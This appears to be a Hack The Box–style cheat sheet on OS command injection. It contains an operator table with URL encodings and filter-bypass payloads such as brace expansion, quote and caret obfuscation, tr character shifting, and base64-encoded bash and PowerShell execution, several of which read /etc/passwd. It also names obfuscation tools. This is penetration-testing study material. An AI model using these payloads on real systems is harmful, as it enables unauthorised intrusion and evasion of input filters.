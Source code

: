 ## Info

In general, for basic command injection, all of these operators can be used for command injections regardless of the web application language, framework, or back-end server

However, it is very common for developers only to perform input validation on the front-end while not validating or sanitizing the input on the back-end. 



## Enumeration

**Identifying**

`L3pr3ch4un@htb[/htb]$ sudo tcpdump -i tun0 icmp`

And `ping <your ip>`



| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
| --- | --- | --- | --- |
| Semicolon | ; | %3b | Both |
| New Line | \n | %0a | Both |
| Background | & | %26 | Both (second output generally shown first) |
| Pipe | | | %7c | Both (only second output is shown) |
| AND | && | %26%26 | Both (only if first succeeds) |
| OR | || | %7c%7c | Second (only if first fails) |
| Sub-Shell | `` | %60%60 | Both (Linux-only) |
| Sub-Shell | $() | %24%28%29 | Both (Linux-only) |

The easiest method to customize the HTTP requests being sent to the back-end server is to use a web proxy

| Injection Type | Operators |
| --- | --- |
| SQL Injection | ' , ; -- /* */ |
| Command Injection | ; && |
| LDAP Injection | * ( ) & | |
| XPath Injection | ' or and not substring concat count |
| OS Command Injection | ; & | |
| Code Injection | ' ; -- /* */ $() ${} #{} %{} ^ |
| Directory Traversal/File Path Traversal | ../ ..\\ %00 |
| Object Injection | ; & | |
| XQuery Injection | ' ; -- /* */ |
| Shellcode Injection | \x \u %u %n |
| Header Injection | \n \r\n \t %0d %0a %09 |

**Bypassing blacklisted characters**

`/`:`echo ${PATH:0:1}`

`cat /etc/passwd`:`{cat,/etc/passwd}`

`\`:`$env:HOMEPATH[0]`

`21y4d@htb[/htb]**$** w'h'o'am'i`

`21y4d@htb[/htb]**$** w"h"o"am"i`

`who$@ami`

`C:\htb> who^ami`

**Character Shifting**

There are other techniques to produce the required characters without using them, like shifting characters. For example, the following Linux command shifts the character we pass by 1. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with man ascii), then add it instead of [ in the below example. This way, the last printed character would be the one we need

```
XeroCyb3r@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
XeroCyb3r@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)
```

**Case Manipulation**

`21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`

**Reversing**

`XeroCyb3r@htb[/htb]**$** echo -n 'cat /etc/passwd | grep 33' | base64`

`XeroCyb3r@htb[/htb]**$** bash<<<**$**(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`

`PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`

`XeroCyb3r@htb[/htb]**$** echo -n whoami | iconv -f utf-8 -t utf-16le | base64`

`PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

## Evasion Tools

- Bashfuscator
- DOSfuscation(Windows)

## Reference:

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space
